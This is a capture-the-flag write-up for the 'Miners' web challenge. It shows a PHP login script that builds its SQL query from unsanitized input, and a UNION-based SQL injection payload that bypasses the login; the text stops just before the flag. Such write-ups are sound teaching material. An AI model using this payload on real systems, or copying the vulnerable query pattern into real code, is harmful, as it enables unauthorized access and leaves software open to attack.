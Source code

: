 --
### Miners (Web, 65pts)

#### Challenge

The miners website has been working on adding a login portal so that all miners can get the flag, but they haven't made any accounts! However, your boss demands the flag now! Can you get in anyway? (http://miners.vuln.icec.tf/) 

#### Solution

There was a simple screen with login form (username and password), also we've got source code of _login.php_ file:

```php
<?php
include "config.php";
$con = mysqli_connect($MYSQL_HOST, $MYSQL_USER, $MYSQL_PASS, $MYSQL_DB);
$username = $_POST["username"];
$password = $_POST["password"];
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysqli_query($con, $query);

if (mysqli_num_rows($result) !== 1) {
  echo "<h1>Login failed.</h1>";
} else {
  echo "<h1>Logged in!</h1>";
  echo "<p>Your flag is: $FLAG</p>";
}

?>
```

There's SQL Injection, because username and password are not sanitized in any way before they are used in SQL query. But there's no record in database and to be logged in there's exactly one row needed.

I used username field and simple UNION injection with three columns (I had to add one dummy column, I suppose there was also some ID column in _users_ table):

```
' union select 1,2,version();-- 
```

So executed query was:

```
"SELECT * FROM users WHERE username='' union select 1,2,version();--
```

This query returned exactly one row, so I got the flag:
